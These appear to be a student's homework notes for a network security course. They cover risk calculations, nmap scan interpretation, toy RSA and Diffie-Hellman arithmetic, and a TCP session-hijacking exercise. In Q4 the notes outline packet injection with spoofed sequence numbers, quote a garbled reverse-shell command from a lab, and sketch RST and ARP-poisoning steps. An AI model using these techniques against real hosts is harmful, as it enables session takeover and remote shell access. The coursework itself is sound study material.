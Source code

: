 ```yaml
---
tags:
  - ns
---
```

# iae225

## Q1.1 Quantitative Risk
ACME Corporation recently perform a risk assessment and identified several risks.

- Risk 1: The server farm has a 40% chance of failing each year due to hardware malfunction. The replacement cost for the server, including labor and downtime losses, is estimated at $50,000 per incident.
- - Risk 2: There’s also a risk of a security breach, 50% probability every 24 months, which would leak sensitive client data and it is estimated that it would be $400,000 to secure the breach and repair the PR damage.

40% chance of failing eahc year
50,000 replacement cost

security breach 50% every 24 months -> 
400,000 to secure it

Single Loss Expectancy (**SLE**: Asset Value x Exposure Factor)
Annualized Rate of Occurrence (**ARO**: chance every year that there will be breach)
Annualized Loss Expectancy (**ALE**: SLE $\times$ ARO)
 
 1 - 0.5625 = 0.4375, or 43.75%

ACME is considering implementing a vulnerability management system to mitigate Risk 2. The system would have an initial cost of $200,000 and will require one full-time engineer to manage it (annual salary + benefits of $200,000/year). Given your calculations for Risk 2, would this be a good investment? Provide your rationale with clear supporting calculations. Explain why or why not.

The annualized loss expectancy is 100,000 if we just let things be.

If we hire the engineer and setup the system it's 200,000k to setup and 200k every year to maintain the engineer there.

We don't have to do much calculations since the cost of keeping the engineer is higher than the cost of the loss that we calculated above (the 100k)

## 2.1

sS means that w edo a tcp syn scan
-p just indicates the port 443

in a syn scan, the attacker sent a syn packet to the victim at 443 port and doesnt complete the handshake

since we determined that the port is closed, it means we got a rst/ack  (reset) from the victim.

## 2.2

sU is the udp flag

This happens in a udp scan when we get no response. 

Since udp doesn't really confirm things like tcp does, the port could be filtered or improperly formatted package.

Nmap characterizes this as you don't know, so it says that it's "OPEN FILTERED" 

## 2.3
This could be a tcp syn scan trying to be performed on the server by an attacker, since no connections being established is what nmap sS does. But i could also be some sort of attack trying to flood the 

## Q4
### A
Alice is the client
Bob is server

She wants to pretend to be alice and create a reverse shell to Bob, telling him to connect to a session in Trudy's computer.

Trudy will need to create an ip/tcp packet that contains the malicious payload.

For ip, she can use the ip source and destination ports (src is the client, alice, and dst is the server, bob).

Then, from the last packet transmitted, she can also get the src port and dest ports (as above) + the last seen seq and ack numbers.

The flag should be sent as PA (Push Ack)

and a payload to create a reverse
shell is layered in the data: (from lab, we did `/bin/bash -i > /alice/{aliceIP}/{alice listening port} + new line character"`)

Finally, she can construct the packet and sen it as ip/tcp/payload
### B 
It would definitely be useful since, if alice is taken down, trudy can now pretend to be alice and respond in her behalf.
This is kind of a solution to the problem below.
First she can send a rst attack to alice or find a way to take her system down.
Afterwards, she can posion the arp cache to overwrite the ip-mac arp table such that alice segments will not reach bob and vice versa
Finally, trudy can continue to communicate with bob whilst pretending to be alice (a much more persistent attack)
### C
Trudy can continue guessing forever I think, it's just a matter of how hard it is to be guessing the seq and ack numbers.
The difficulty in this instance does not come from the fact that you can get "banned" from the server.
It comes from the fact that it's nearly impossible to actually guess those numbers (seq ack) right if you cannot see the packets

## Q5
p = 53, n = 2279 

Choose too large prime numbers, p and q

n = pq , phi is (p-1)(q-1)

q -> 2279 = 53 x 43

(43-1)(53-1)

phi= 2,184

p = 53
q = 43
n = 2279 
$\phi$ = 2184

e < $\phi$
and e and phi are relatively prime

e = 23

find d 

Public:
2279, 23

Private:
2279, 95

100^23 mod 2279 = 755

755^95 mod 2279 = 100

## Q6 

g = 7
n = 29
a = 5
b = 6

A = g^a mod n
A = 7^5 mod 29

B = g^b mod n
B = 7^6 mod 29

K= A^b mod n
K = B^a mod n

K= 16^6 mod 29 = 20
K = 25^5 mod 29 = 20

## Q7